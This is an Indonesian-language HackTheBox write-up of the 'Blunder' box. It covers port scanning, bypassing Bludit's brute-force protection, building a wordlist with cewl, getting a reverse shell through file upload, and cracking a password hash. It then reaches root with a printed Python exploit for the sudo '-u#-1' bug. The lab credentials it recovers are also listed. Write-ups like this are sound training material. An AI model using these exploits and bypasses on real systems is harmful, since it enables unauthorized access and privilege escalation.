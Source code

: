 # Blunder (Linux)

![Image](img/1.png)

HackTheBox Blunder Linux, ini adalah box yang menarik karena penulis dan teman teman sempat melakukan balapan untuk mencoba menjadi yang tercepat dalam solving box nya. Penulis berhasil menyelesaikan pertama diantara 4 teman-teman dalam waktu 4,5 jam #notsobad

Dari tampilan awalnya sepertinya box ini akan berat di CVE dan real-life

### Enumeration

Mari kita mulai enumeration menggunakan nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-28 07:12 EDT
Nmap scan report for 10.10.10.191
Host is up (0.031s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
Device type: firewall
Running (JUST GUESSING): Fortinet embedded (87%)
OS CPE: cpe:/h:fortinet:fortigate_100d
Aggressive OS guesses: Fortinet FortiGate 100D firewall (87%)
No exact OS matches for host (test conditions non-ideal).

TRACEROUTE (using port 21/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.84 seconds
```

Kita bisa melihat bahwa port yang terbuka hanya HTTP, yang berarti web servicenya. Mari kita kunjungi, sambil kita jalankan dirbuster

Tampilan webnya tidak menyediakan banyak

![Image](img/6.png)

Namun dari dirbuster kita tahu bahwa ada directory admin yang ternyata sebuah login panel, dan todo.txt yang berisi potential username 'fergus'

![Image](img/2.png)

### User

Penulis kemudian mencoba untuk melakukan bruteforce login panelnya menggunakan python script, namun ternyata Bludit memiliki fitur anti bruteforcing dengan menyimpan IP attempted login pada file log. Namun juga ada bypass nya dikarenakan IP yang disimpan disertakan dalam header request, sehingga merubah headernya setiap 10 request bisa mem-bypass fitur anti bruteforcenya.

[https://github.com/rastating/rastating.github.io/blob/master/_posts/2019-10-05-bludit-brute-force-mitigation-bypass.md](https://github.com/rastating/rastating.github.io/blob/master/_posts/2019-10-05-bludit-brute-force-mitigation-bypass.md)

Setelah melakukan bruteforcing yang lama ternyata rockyou tidak dapat dengan mudah mengeluarkan hasil bruteforce yang diinginkan, maka penulis memutuskan untuk membuat wordlist sendiri menggunakan tools yang bernama cewl.

[https://tools.kali.org/password-attacks/cewl](https://tools.kali.org/password-attacks/cewl)

```
cewl -d 2 -m5 http://10.10.10.191 > wordlist.txt
```

Command diatas akan membuat wordlist dengan crawling dan scraping, kata yang memiliki huruf minimal 5 panjangnya akan dimasukkan kedalam wordlist.

Menggunakan script bypass IP restriction Bludit dibawah ini penulis berhasil mendapatkan password combination yang benar untuk user fergus

![Image](img/3.png)

Ditemukan password yang digunakan untuk login

fergus:RolandDeschain

Karena kita sudah bisa login ke admin panel sebagai fergus, kita bisa melakukan file upload dan mendapatkan reverse shell. Penulis menggunakan msfconsole untuk membuka session.

### Root

Setelah melakukan enumerasi penulis melihat ada user kedua yang bernama hugo, dan setelah lebih banyak enumerasi lagi penulis berhasil menemukan hashed password login sebagai hugo di folder Bludit 3.10.x 

![Image](img/4.png)

Dikarenakan password di hash, maka penulis akan melakukan cracking menggunakan john the ripper

hugo:Password120

Melakukan sudo -l dengan user hugo penulis menemukan

![Image](img/5.png)

Menggunakan exploit sudo untuk spawn /bin/bash as root 

https://www.exploit-db.com/exploits/47502

```
#!/usr/bin/python3
import os

#Get current username
username = input("Enter current username :")

#check which binary the user can run with sudo
os.system("sudo -l > priv")
os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit
print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```

Run exploitnya dengan python dan kita mendapatkan root

# Rooted !
